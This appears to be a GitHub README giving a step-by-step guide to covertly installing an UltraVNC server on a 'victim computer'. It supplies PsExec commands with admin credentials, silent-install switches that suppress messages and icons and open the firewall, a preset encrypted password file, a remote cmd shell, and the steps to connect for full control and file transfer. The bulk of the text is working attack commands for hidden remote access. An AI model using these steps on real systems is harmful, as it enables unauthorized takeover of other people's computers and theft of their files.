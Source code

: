 # VNC (UltraVNC) Remote Desktop Connectin Server/Client

UltraVNC is an open-source remote-administration/remote-desktop-software utility. The client supports Microsoft Windows and Linux but the server only supports Windows. It uses the VNC protocol to control/access another computer remotely over a network connection.

![UltraVNC](assets/uvnc.jpg "Open source UltraVNC remote desktop client/server")

## Install VNC Server to Victim Computer

You can remotely view, control or transfer files the victim computer using the UltraVNC tool. For this, follow the steps below.

### Step 1: Download UltraVNC setup

Copy current version of ultravnc from the website to your computer as **"c:\\uvncsetup.exe"**.

### Step 2: Start installation 

To start silent installation on victim computer run **"uvncsetup.exe"** as remotely using **PsExec.exe** below. The command copy the specified executable (uvncsetup.exe) to the remote system for execution:

`psexec \\\victim -u admin -p admin0 -h -i -c C:\uvncsetup.exe /SP- /VERYSILENT /SUPPRESSMSGBOXES /NOCANCEL /NORESTART /CLOSEAPPLICATIONS /FORCECLOSEAPPLICATIONS /LOGCLOSEAPPLICATIONS /RESTARTAPPLICATIONS /NOICONS /FIREWALL /NOVIEW /COMPONENTS="ultravnc_server" /TASKS="installservice,stopservice" /DIR="%programfiles%\uvnc"`

The inno setup parameters above allow the installation to complete silently. The installation files will be saved in the **"%program files%\uvnc"** directory on victim computer.

### Step 3: Define new password 

Create the **ultravnc.ini** file with the password defined in the **"%programfiles%\uvnc"** of the victim computer. 
UltraVNC password is "**admin0**" defined in **ultravnc.ini**. The ini file content is below:

> [ultravnc] \
> passwd=56B6ACA18D1BA76008 \
> passwd2=56B6ACA18D1BA76008

Copy the file to **"%programfiles%\uvnc"** folder on victim computer.

### Step 4: Restart the service

Start the service for the password to take effect. To restart the service open an interactive remote shell to victim computer below:

`psexec \\victim -u admin -p admin0 -h -i cmd.exe`

And run below command over remote shell:

`net start uvnc_service`

### Step 5: Check the installation

Check UltraVNC listen port with netstat 

`netstat -ano | find "5900"`\
`tasklist /fi "pid eq <pid>"`

Run UltraVNC viewer and connect to victim computer. You can control it with mouse/keyboard or download/upload files via UltraVNC's  file manager.

![UltraVNC Viewer](assets/uvnc_viewer.png "UltraVNC Viewer")